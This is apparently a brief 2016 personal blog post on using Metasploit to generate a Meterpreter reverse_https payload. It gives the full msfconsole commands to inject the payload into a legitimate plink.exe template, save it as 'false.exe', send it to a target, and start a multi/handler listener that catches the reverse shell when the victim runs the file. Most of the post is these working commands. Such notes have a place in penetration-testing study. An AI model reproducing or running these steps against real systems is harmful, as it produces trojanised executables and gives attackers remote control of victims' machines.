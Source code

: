 ```yaml
---
layout: post
title: "Metasploit Generates Payload"
date: 2016-02-26 16:47:27 -0500
comments: true
categories: metasploit payload
---
```


###This note is for generating payload using Metasploit.

###Use `generate` command:

```
msf > use payload/windows/meterpreter/reverse_https

msf payload(reverse_https) > set lhost 192.168.79.156

msf payload(reverse_https) > set lport 4444

msf payload(reverse_https) > generate -t exe -f false.exe -x /var/www/html/plink.exe

```

Here I use reverse_https to generate payload and inject to plink.exe as a template.

options:

`-t  ------ payload format`

`-f  ------ payload output`

`-x  ------ injection template`

This step will generate reverse https payload and use plink.exe as a template, write to file false.exe and send it to the target.

In order to get the reverse https shell, I have to set up multi handler:

###Set up `multi handler`

```
msf > use exploit/multi/handler 

msf exploit(handler) > set payload windows/meterpreter/reverse_https

msf exploit(handler) > set lhost 192.168.79.156

msf exploit(handler) > set lport 4444

msf exploit(handler) > exploit 
```

Once the victim run the false.exe on the target machine, it will initlize a reverse https connection to the attacker.

{% img  /images/blog/metasplot_payload/metasploit_payload_1.JPG  [title text [alt text]] %}

